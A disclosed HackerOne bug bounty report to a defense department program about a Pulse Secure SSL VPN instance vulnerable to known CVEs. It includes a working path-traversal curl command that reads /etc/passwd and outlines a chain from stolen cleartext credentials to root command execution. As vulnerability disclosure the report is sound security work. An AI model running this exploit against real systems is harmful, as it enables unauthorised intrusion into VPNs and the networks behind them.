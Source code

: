 # Arbitrary File Reading leads to RCE in the Pulse Secure SSL VPN on the https://████

## Report Details
- **Report ID**: 695005
- **URL**: https://hackerone.com/reports/695005
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-09-14T22:51:23.490Z
- **Disclosed**: 2021-07-29T19:49:31.429Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
Hello. Some time ago, researcher Orange Tsai from DEVCORE team had a talk on Defcon/BlackHat regarding Pulse Secure SSL VPN vulnerabilities fixed on 2019/4/25:
**CVE-2019-11510 - Pre-auth Arbitrary File Reading**
CVE-2019-11542 - Post-auth Stack Buffer Overflow
**CVE-2019-11539 - Post-auth Command Injection**
CVE-2019-11538 - Post-auth Arbitrary File Reading
**CVE-2019-11508 - Post-auth Arbitrary File Writing**
CVE-2019-11540 - Post-auth Session Hijacking

Link to the slides: https://i.blackhat.com/USA-19/Wednesday/us-19-Tsai-Infiltrating-Corporate-Intranet-Like-NSA.pdf

I discovered that `https://██████████` instance is vulnerable to described vulnerabilities.

##POC

Reading `/etc/passwd` via CVE-2019-11510:
```
curl -i -k --path-as-is https://██████████/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/
```
```
███████
█████████
██████████
████
█████
██████
███████
████████
███████
```

The RCE can be achieved with this chain:
1) Pulse Secure stores credentials in the cleartext.
2) Attacker reads credentials  and authorizes on VPN
3) Attacker exploits CVE-2019-11539 - Post-auth Command Injection achieving RCE as root.

##Suggested fix
Update the Pulse Secure SSL VPN software.

## Impact

Remote code execution as root (by reading plaintext credentials and then exploiting CVE-2019-11539 - Post-auth Command Injection) and accessing intranet behind VPN.
You can see here example report to Twitter by Orange Tsai: https://hackerone.com/reports/591295

## Attachments
No attachments

